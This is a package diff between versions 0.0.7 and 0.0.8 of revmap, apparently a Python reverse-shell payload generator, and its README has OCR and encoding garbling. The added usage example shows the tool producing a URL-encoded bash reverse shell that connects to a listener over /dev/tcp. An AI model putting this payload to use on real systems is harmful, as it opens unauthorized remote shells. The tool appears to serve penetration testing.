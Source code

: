 ```
 hexadecimal e etc) # Forma de utilizaÃ§Ã£o ```sh revmap --ip 192.168.4.80 --
 port 4444 ``` Isso exibirÃ¡ a ajuda para a ferramenta. Aqui estÃ£o todos os
 switches que ele suporta: ```yaml ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'|
-. | |_| |___|\_/|_|_|_|__,| _| |_| v0.0.7 - @joaoviictorti options: -h, --help
+. | |_| |___|\_/|_|_|_|__,| _| |_| v0.0.8 - @joaoviictorti options: -h, --help
 show this help message and exit --version show program's version number and
 exit --ip IP Insert ip --port PORTA Insert port ``` # InstalaÃ§Ã£o revmap
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install revmap ``` #
-Executando revmap ![logo_do_projeto](https://github.com/joaoviictorti/revmap/
-blob/main/images/revmap_console.png) [https://capsule-render.vercel.app/
+Executando revmap ```console revmap --ip 192.168.4.103 --port 80 ___ ___ _ _
+_____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/|_|_|_|__,| _| |_| v0.0.8 -
+@joaoviictorti [tab] for commands suggestions 192.168.4.103 (80) [revmap] #
+bash Do you want to use encoding? (Yes/No) [revmap] # yes Insert encode
+[revmap] # urlencode bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/
+192.168.4.103/80%20%3C%261%27 192.168.4.103 (80) [revmap] # ``` [https://
+capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `revmap-0.0.7/revmap/encoded.py` & `revmap-0.0.8/revmap/encoded.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/payloads.py` & `revmap-0.0.8/revmap/payloads.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/settings/color_settings.py` & `revmap-0.0.8/revmap/settings/color_settings.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/settings/message_settings.py` & `revmap-0.0.8/revmap/settings/message_settings.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/utils/commands.py` & `revmap-0.0.8/revmap/utils/commands.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/utils/generator_payloads.py` & `revmap-0.0.8/revmap/utils/generator_payloads.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.7/revmap/utils/validator_required.py` & `revmap-0.0.8/revmap/utils/validator_required.py`

 * *Files identical despite different names*

